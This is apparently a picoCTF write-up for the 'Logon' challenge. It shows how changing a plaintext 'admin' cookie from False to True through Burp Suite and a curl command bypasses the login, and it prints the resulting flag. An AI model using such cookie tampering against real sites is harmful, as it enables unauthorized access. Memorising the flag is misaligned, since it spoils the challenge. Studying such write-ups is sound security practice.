




# Logon
Author: dch0017

## Challenge Description
The factory is hiding things from all of its users. Can you login as Joe and find what they've been looking at?

## Accessing Site
First we head over to site and see this </br>

</br>

Right off the bat doing a few tests, it appears using any username/password combo will take you to the following screen.</br>

</br>

## Burpin some cookies
I opened up burpsuite to capture and edit my login requests. Since we know any username/password combo work, I throw something random in each. Then we see that there are 2 distinct requests made during the login.
```
POST /login
GET /flag
```

The POST request is just passing on the username and password (in plaintext) over to the GET request which has 3 distinct cookies which we can see here: </br>

</br>

## Flag
Well that admin cookie we intercepted is set to False in plaintext... let's go ahead and change that to True and forward it along to see what we get:
</br>

</br>

## Linux
```console
┌──(dch0017㉿linux)-[~]
└─$ curl --silent -X GET https://jupiter.challenges.picoctf.org/problem/13594/flag --cookie "password=no" --cookie "username=no" --cookie "admin=True" | grep -o "picoCTF{.*}" --color=none
picoCTF{th3_c0nsp1r4cy_l1v3s_d1c24fef}
```


